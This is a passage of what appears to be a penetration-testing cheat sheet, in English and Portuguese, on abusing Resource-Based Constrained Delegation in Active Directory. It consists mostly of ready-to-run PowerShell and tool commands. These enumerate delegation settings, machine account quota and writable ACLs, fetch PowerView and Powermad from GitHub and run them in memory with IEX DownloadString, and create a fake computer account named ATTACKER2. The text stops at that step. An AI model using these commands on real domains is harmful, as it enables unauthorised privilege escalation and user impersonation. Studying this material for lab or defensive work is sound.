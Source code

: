 
## RESOURCE-BASED CONSTRAINED DELEGATION
This is similar to the basic Constrained Delegation but instead of giving permissions to an object to impersonate any user against a service. Resource-based Constrain Delegation sets in the object who is able to impersonate any user against it.

In this case, the constrained object will have an attribute called msDS-AllowedToActOnBehalfOfOtherIdentity with the name of the user that can impersonate any other user against it.

Another important difference from this Constrained Delegation to the other delegations is that any user with write permissions over a machine account (GenericAll/GenericWrite/WriteDacl/WriteProperty/etc) can set the msDS-AllowedToActOnBehalfOfOtherIdentity (In the other forms of Delegation you needed domain admin privs).

If you have an account or computer with the constrained delegation privilege, it is possible to impersonate any other user and authenticate yourself to a service where the user is allowed to delegate.

##### RESOURCE-BASED CONSTRAINED DELEGATION - LISTAR OBJETOS COM DELEGAÇÃO RBCD CONFIGURADA
```
Get-ADComputer -Filter * -Properties * | ?{$_.PrincipalsAllowedToDelegateToAccount -ne "$null"} | select samaccountname, PrincipalsAllowedToDelegateToAccount 
```
##### RESOURCE-BASED CONSTRAINED DELEGATION - LISTAR QUANTOS COMPUTADORES UM USUARIO PODE ADICIONAR NO DOMINIO
```
Get-ADObject -Identity "DC=TECH,DC=LOCAL" -Properties MS-DS-MachineAccountQuota
```
```
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```
```
SharpView Get-DomainObject -Domain tech.local
```
```
StandIn.exe --object ms-DS-MachineAccountQuota=*
```
##### RESOURCE-BASED CONSTRAINED DELEGATION - FIND COMPUTERS AND USERS WITH GENERICWRITE, GENERICALL
```
IEX(New-Object System.Net.WebClient).DownloadString("https://github.com/n0ts0cial/oscp/raw/main/PowerView.ps1")
```
```
Find-Find-InterestingDomainAcl
Find-InterestingDomainAcl | ?{$_.IdentityReferenceClass -eq 'computer'}
Find-InterestingDomainAcl | ?{$_.IdentityReferenceClass -eq 'user'}
```
##### RESOURCE-BASED CONSTRAINED DELEGATION - CRIAR CONTA FALSA DE COMPUTADOR
CARREGAR O POWERMAD
```
curl https://github.com/n0ts0cial/oscp/raw/main/Powermad.ps1 -Outfile Powermad.ps1
import-module .\powermad.ps1
```
```
IEX(New-Object System.Net.WebClient).DownloadString("https://github.com/n0ts0cial/oscp/raw/main/Powermad.ps1")
```
CRIAR UMA CONTA FALSA DE COMPUTADOR
```
New-MachineAccount -MachineAccount ATTACKER2 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
OU USAR O STANDIN
```
StandIn.exe --computer ATTACKER2 --make
```